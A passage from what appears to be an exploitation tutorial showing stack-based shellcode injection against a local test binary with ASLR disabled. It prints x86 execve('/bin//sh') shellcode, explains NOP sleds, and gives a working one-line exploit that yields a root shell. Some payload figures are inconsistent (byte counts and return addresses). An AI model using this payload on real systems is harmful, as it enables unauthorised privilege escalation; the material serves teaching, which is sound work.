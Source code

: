     \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

- Length of shellcode = 25 bytes

- It is also known that return address starts after the first 112 bytes of `buf`

- We'll fill the first 40 bytes with NOP instructions

> #### NOP Sled

NOP Sled is a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired, destination whenever the program branches to a memory address anywhere on the sled. Basically, whenever the CPU sees a NOP instruction, it slides down to the next instruction.

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the earlier mentioned problem of not knowing the address of `buf` exactly.

We will make the processor jump to the address of `buf`(taken from gdb's output) + 20 bytes to get somewhere in the middle of the NOP sled.

    0xffffce0c + 20 = 0xffffce20

We can fill the rest 47(112 - 25 - 40) bytes with random data, say the 'A' character.

Final payload structure:

[40 bytes of NOP - sled] [25 bytes of shellcode] [47 times 'A' will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xffffce16]

So let's try to execute it:

```sh
test@linux ~ $ ./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\x20\xce\xff\xff"')
Welcome ����������������������������������������j
                            X�Rhn/shh//bi��RS��̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
# whoami
root
```

Congratulations! We've got root access.

**Note**: In case you segmentation fault, try changing the return address by +- 40 a few times.

To summarize, we overflowed the buffer and modified the return address to point near the start of the `buffer` in the stack. The `buffer` itself started with a NOP sled followed by shellcode which got executed. Keep in mind that we did all this with ASLR turned off. Which means that the start of the stack wasn't randomized each time the program was executed. This enabled us to first run the program in `gdb` to know the address of `buffer`. Make sure you've understood everything till here. Now we shall be going to the exciting part!

> ## Shellcode Injection with ASLR

You can turn ASLR on and try to execute our earlier exploit. A great chance you wouldn't be able to run it. So how do we approach now? To begin, let's first try to inspect a few things. Let's create a program to just print the address of its variable which is stored on the stack.
